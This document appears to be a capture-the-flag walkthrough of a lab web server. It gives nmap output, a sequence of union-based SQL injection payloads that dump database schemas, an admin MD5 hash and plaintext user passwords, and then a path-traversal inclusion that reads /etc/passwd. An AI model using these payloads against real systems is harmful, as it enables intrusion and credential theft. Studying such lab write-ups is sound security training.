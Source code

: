 <details>
  <summary><h1>1. Nmap Scan</h1></summary>

```console
┌──(root㉿kali)-[~]
└─# nmap -p- -A 10.0.88.33
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-11 13:42 +08
Nmap scan report for 10.0.88.33
Host is up (0.0019s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp open     http    Apache httpd 2.4.38 ((Debian))
|_http-title: Example.com - Staff Details - Welcome
|_http-server-header: Apache/2.4.38 (Debian)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=12/11%OT=80%CT=1%CU=30953%PV=Y%DS=2%DC=T%G=Y%TM=63956D
OS:DE%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10B%TI=Z%TS=A)OPS(O1=M5B4S
OS:T11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M
OS:5B4ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=N)T1(R
OS:=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40
OS:%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=
OS:0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N)

Network Distance: 2 hops

TRACEROUTE (using port 199/tcp)
HOP RTT     ADDRESS
1   0.89 ms 192.168.17.1
2   1.54 ms 10.0.88.33

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.65 seconds
```

</details>

# 2. SQL Injection

URL: `http://<ip-address>/search.php`

<details>
  <summary><h2>1. Identify query vulnerability</h2></summary>

Legitimate input `tom`:

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com
```

</details>

<details>
  <summary><h2>2.Identify injection vector</h2></summary>

Testing `tom'` → `0 results`

Testing `tom' #` → same results as legitimate input → SQL query is susceptible to injection

</details>

<details>
  <summary><h2>3. Identify range</h2></summary>

Query: `tom' ORDER BY 7 #` → `0 results`

`ORDER BY` works until `6` and fails at `7` → data ramge is 6 columns

</details>

<details>
  <summary><h2>4. Identify data display positions</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,5,6 #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: 5
Email: 6
```

</details>

<details>
  <summary><h2>5. Retrieve database/version information</h2></summary>

Query: `tom' UNION SELECT 1,2,3,DATABASE(),VERSION(),TABLE_SCHEMA FROM information_schema.TABLES #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: Staff
Phone No: 10.3.17-MariaDB-0+deb10u1
Email: information_schema

ID: 1
Name: 2 3
Position: Staff
Phone No: 10.3.17-MariaDB-0+deb10u1
Email: Staff

ID: 1
Name: 2 3
Position: Staff
Phone No: 10.3.17-MariaDB-0+deb10u1
Email: users
```

Found 2 databases: `Staff` and `users`

</details>

<details>
  <summary><h2>6. Enumerate tables (from <code>Staff</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,TABLE_SCHEMA,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='Staff' #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: Staff
Email: StaffDetails

ID: 1
Name: 2 3
Position: 4
Phone No: Staff
Email: Users
```

Found 2 tables: `StaffDetails` and `Users`

</details>

<details>
  <summary><h2>7. Enumerate columns (from <code>Staff.Users</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,TABLE_SCHEMA,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='Staff' #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: Users
Email: UserID

ID: 1
Name: 2 3
Position: 4
Phone No: Users
Email: Username

ID: 1
Name: 2 3
Position: 4
Phone No: Users
Email: Password
```

</details>

<details>
  <summary><h2>8. Retrieve data (from <code>Staff.Users</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,UserID,Username,Password FROM Users #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 1
Phone No: admin
Email: 856f5de590ef37314e7c3bdf6f8a66dc
```

</details>

<details>
  <summary><h2>6-Again. Enumerate tables (from <code>users</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,TABLE_SCHEMA,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='users' #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: users
Email: UserDetails
```

</details>

<details>
  <summary><h2>7-Again. Enumerate columns (from <code>users.UserDetails</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,TABLE_NAME,COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='users' AND TABLE_NAME='UserDetails' #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: id

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: firstname

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: lastname

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: username

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: password

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: reg_date
```

</details>

<details>
  <summary><h2>8-Again. Retrieve data (from <code>users.UserDetails</code>)</h2></summary>

Query: `tom' UNION SELECT id,firstname,lastname,username,password,reg_date FROM users.UserDetails #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: Mary Moe
Position: marym
Phone No: 3kfs86sfd
Email: 2019-12-29 16:58:26

ID: 2
Name: Julie Dooley
Position: julied
Phone No: 468sfdfsd2
Email: 2019-12-29 16:58:26

ID: 3
Name: Fred Flintstone
Position: fredf
Phone No: 4sfd87sfd1
Email: 2019-12-29 16:58:26

ID: 4
Name: Barney Rubble
Position: barneyr
Phone No: RocksOff
Email: 2019-12-29 16:58:26

ID: 5
Name: Tom Cat
Position: tomc
Phone No: TC&TheBoyz
Email: 2019-12-29 16:58:26

ID: 6
Name: Jerry Mouse
Position: jerrym
Phone No: B8m#48sd
Email: 2019-12-29 16:58:26

ID: 7
Name: Wilma Flintstone
Position: wilmaf
Phone No: Pebbles
Email: 2019-12-29 16:58:26

ID: 8
Name: Betty Rubble
Position: bettyr
Phone No: BamBam01
Email: 2019-12-29 16:58:26

ID: 9
Name: Chandler Bing
Position: chandlerb
Phone No: UrAG0D!
Email: 2019-12-29 16:58:26

ID: 10
Name: Joey Tribbiani
Position: joeyt
Phone No: Passw0rd
Email: 2019-12-29 16:58:26

ID: 11
Name: Rachel Green
Position: rachelg
Phone No: yN72#dsd
Email: 2019-12-29 16:58:26

ID: 12
Name: Ross Geller
Position: rossg
Phone No: ILoveRachel
Email: 2019-12-29 16:58:26

ID: 13
Name: Monica Geller
Position: monicag
Phone No: 3248dsds7s
Email: 2019-12-29 16:58:26

ID: 14
Name: Phoebe Buffay
Position: phoebeb
Phone No: smellycats
Email: 2019-12-29 16:58:26

ID: 15
Name: Scooter McScoots
Position: scoots
Phone No: YR3BVxxxw87
Email: 2019-12-29 16:58:26

ID: 16
Name: Donald Trump
Position: janitor
Phone No: Ilovepeepee
Email: 2019-12-29 16:58:26

ID: 17
Name: Scott Morrison
Position: janitor2
Phone No: Hawaii-Five-0
Email: 2019-12-29 16:58:28
```

</details>

# 3. Getting a login to `/manage.php`

A credential was retrieved from the from `Staff.Users` table

Username: `admin`

Password: `856f5de590ef37314e7c3bdf6f8a66dc`

Attempts to crack the password hash fails because the password doesn't match even the `rockyou` wordlist

☝️ hashcat is not always the answer for cracking hashes

Thankfully, md5 is easily reversible, Googling returns several online md5 hash reversers

Trying the one at <https://md5.gromweb.com/> reveals that the password is: `transorbital1`

Logging in with the credentials reveals a curious `File does not exist` error at the page footer:

![image](https://user-images.githubusercontent.com/90442032/206894411-31c7f1ce-c8f4-4528-8806-bc28ef262255.png)

This suggests that the page is susceptible to some form of file inclusion

# 4. Finding the file inclusion vulnerability

Without knowing where the DocumentRoot of the target machine is at, the next step is to identify the path traversal for the file inclusion

Since this is a linux box, the `/etc/passwd` file should exist

`../` can be appended to the URL until the `/etc/passwd` file is returned

The path is ultimately found at: `http://<ip-address>/manage.php?file=../../../../etc/passwd`

![image](https://user-images.githubusercontent.com/90442032/206894750-0758d4ad-8fde-49f7-b1ac-d81035b70a7c.png)
